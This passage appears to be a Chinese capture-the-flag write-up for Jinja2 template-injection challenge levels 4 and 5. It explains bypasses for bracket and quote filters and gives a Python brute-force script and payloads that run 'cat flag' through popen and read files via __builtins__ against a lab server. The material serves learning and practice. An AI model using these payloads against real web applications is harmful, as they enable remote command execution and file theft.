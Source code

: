 ### [level 4](#toc_level-4)

[![在这里插入图片描述](assets/1698900310-07f6a46b1cd7bd7661fbf8568cd52721.png)](https://storage.tttang.com/media/attachment/2022/08/14/320de3ba-660d-44fe-8f96-8529fafe2b81.png)  
题目描述，过滤了`[]`中括号，这里的话可以用`__getitem()__`来代替\[\]，简单一点理解的话，如下所示

```plain
"".__class__.__mro__[1]="".__class__.__mro__.__getitem__(2)
```

所以这里的话，我们简单修改一下之前的脚本就可以继续执行了

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/4"
        data={"code":'{{().__class__.__base__.__subclasses__().__getitem__('+str(i)+').__init__.__globals__.__getitem__("popen")("cat flag").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        if 'Hello' in res.text:
            print(res.text)

    except:
        pass
```

[![在这里插入图片描述](assets/1698900310-83d2c92cc322c7a46f4526dfeff2bf1b.png)](https://storage.tttang.com/media/attachment/2022/08/14/cb1d355d-e563-421d-a317-644df75fceed.png)

### [level 5](#toc_level-5)

[![在这里插入图片描述](assets/1698900310-6e6d4a2c112cd9ae2af1b4b40511f7c5.png)](https://storage.tttang.com/media/attachment/2022/08/14/552fdfeb-8919-4fb1-a564-e55eec5f7821.png)  
题目说过滤了单引号和双引号，这里的话就可以考虑使用`request.arg.a`，然后发送 GEt 请求`a=xxx`这种方式来实现绕过  
我们这次使用这个 payload

```plain
{{c.__init__.__globals__['__builtins__'].open('flag', 'r').read()}}
```

构造 payload 如下

```plain
GET:a=__builtins__&b=flag&c=r
POST:code={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```
